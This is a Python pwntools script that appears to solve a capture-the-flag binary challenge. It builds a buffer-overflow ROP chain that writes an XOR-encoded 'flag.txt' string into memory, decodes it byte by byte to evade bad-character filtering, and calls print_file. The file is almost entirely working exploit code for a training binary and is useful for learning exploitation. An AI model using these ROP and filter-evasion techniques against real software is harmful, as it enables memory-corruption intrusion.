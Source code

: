 ```python
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)
# RUNPATH:  b'.'

io = start()

buffer_dim = 32
offset = buffer_dim + 8

print_file = exe.symbols['print_file']

rop = ROP(exe)
ret = rop.find_gadget(['ret'])[0]
pop_r12_pop_r13_pop_r14_pop_r15 = rop.find_gadget(['pop r12', 'pop r13', 'pop r14', 'pop r15', 'ret'])[0]
mov_qword_ptr_r13_r12 = 0x400634
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_r14_pop_r15 = rop.find_gadget(['pop r14', 'pop r15'])[0]

string_address = 0x601038
xor_byte = 0x20

xor_byte_ptr_r15_r14b = 0x400628

filename = 'flag.txt'

xored_string = ''
for c in filename:
    xored_string += chr(ord(c) ^ xor_byte)

payload = [
    b'a' * offset,
    p64(ret),
    p64(pop_r12_pop_r13_pop_r14_pop_r15),
    xored_string.encode(),             # r12
    p64(string_address),               # r13
    p64(xor_byte),                     # r14
    p64(string_address),               # r15
    p64(mov_qword_ptr_r13_r12)
]

# XOR again the filename after pass all checks

for i in range(len(filename)):
    payload += [
        p64(pop_r14_pop_r15),
        p64(xor_byte),
        p64(string_address + i),
        p64(xor_byte_ptr_r15_r14b),
    ]

# Call the print_file with correct filename

payload += [
    p64(pop_rdi),
    p64(string_address),
    p64(print_file)
]

payload = b''.join(payload)

```